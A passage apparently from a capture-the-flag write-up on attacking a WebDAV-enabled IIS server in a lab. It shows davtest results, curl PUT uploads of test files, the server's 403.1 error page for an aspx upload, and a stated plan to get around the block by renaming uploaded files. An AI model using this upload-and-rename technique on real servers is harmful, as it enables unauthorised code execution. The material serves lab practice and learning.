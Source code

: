 ```
PUT File: http://10.129.103.148/DavTestDir_832eFlXD4Y6R51a/davtest_832eFlXD4Y6R51a.jhtml
Executes: http://10.129.103.148/DavTestDir_832eFlXD4Y6R51a/davtest_832eFlXD4Y6R51a.html
Executes: http://10.129.103.148/DavTestDir_832eFlXD4Y6R51a/davtest_832eFlXD4Y6R51a.txt
```

Unfortunately `aspx` files cannot be uploaded, but as files can be moved, we will try to rename them.

First test to upload a text file
```
└─$ echo test > test.txt
└─$ curl -X PUT http://10.129.103.148/test.txt -d @test.txt
└─$ curl http://10.129.103.148/test.txt
test                                                   
```

As expected, the upload of an aspx file fails
```
└─$ cp test.txt test.aspx
└─$ curl -X PUT http://10.129.103.148/test.aspx -d @test.aspx
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>

```
